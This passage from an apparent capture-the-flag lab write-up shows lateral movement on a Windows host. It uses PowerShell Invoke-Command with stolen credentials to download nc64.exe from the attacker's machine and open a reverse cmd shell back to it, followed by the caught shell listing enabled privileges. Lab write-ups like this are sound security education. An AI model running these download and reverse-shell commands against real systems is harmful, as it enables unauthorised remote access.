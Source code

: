 But these users get flushed periodically as well.

Back to awallace, I’ll upload `nc64.exe` and call it:

```

PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -Credential $cred -ScriptBlock { wget 10.10.14.6/nc64.exe -outfile \programdata\nc64.exe }
PS C:\utils> Invoke-Command -ComputerName ATSSERVER -Credential $cred -ScriptBlock { \programdata\nc64.exe -e cmd 10.10.14.6 444}

```

At a listening `nc`:

```

oxdf@hacky$ rlwrap -cAr nc -lnvp 444
Listening on 0.0.0.0 444
Connection received on 10.10.11.145 56958
Microsoft Windows [Version 10.0.17763.2452]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\awallace\Documents>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State  
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
```